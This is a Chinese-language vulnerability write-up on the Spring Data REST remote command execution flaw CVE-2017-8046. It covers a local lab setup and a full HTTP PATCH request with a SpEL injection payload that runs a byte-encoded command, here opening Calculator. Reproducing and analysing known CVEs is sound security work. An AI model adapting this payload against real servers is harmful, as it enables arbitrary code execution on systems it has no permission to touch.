 ```yaml
---
title: Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）分析
description: 承接上篇，学习了一下Spring框架以后，分析一下Spring的一些历史漏洞，这篇分析Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）
categories:
 - 漏洞分析
tags:
 - 漏洞分析
---
```


### 0x00 漏洞环境和环境复现
下载[Spring官方Demo](https://github.com/spring-guides/gs-accessing-data-rest)，complete文件夹下即为我们需要的漏洞代码

IDEA打开complete文件，删除gradle的配置，修改`pom.xml`中的`parent`的版本信息，使漏洞组件`spring-data-rest-webmvc`的版本在存在漏洞的版本2.6.6

```
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>1.5.6.RELEASE</version>  
    <relativePath/>
</parent>
```

运行后访问`http://192.168.0.145:8080/`确认运行，IP是本机地址，Burp Suite CE不知道为什么不拦localhost和`127.0.0.1`，所以只能这样

通过RESTFul请求新增一个people

```
POST /people HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://192.168.0.145:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=13AB1FF0AECC49808DF1FAE070CCC0DE
Connection: close
Content-Length: 32

{"firstName":"w","lastName":"q"}
```

再请求`http://192.168.0.145:8080/people/1`有数据返回

之所以要新建一个数据，是因为漏洞发生在PATCH方法中，PATCH方法在HTTP协议中用来更新局部资源，是对PUT方法对补充，可以理解PUT是替换，PATCH是部分更新

然后我们就可以构造PATCH的payload尝试了

```
PATCH /people/1 HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Cookie: JSESSIONID=13AB1FF0AECC49808DF1FAE070CCC0DE
Content-Length: 280

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111,112,101,110,32,47,83,121,115,116,101,109,47,65,112,112,108,105,99,97,116,105,111,110,115,47,67,97,108,99,117,108,97,116,111,114,46,97,112,112}))/lastname", "value": "vulhub" }]
```
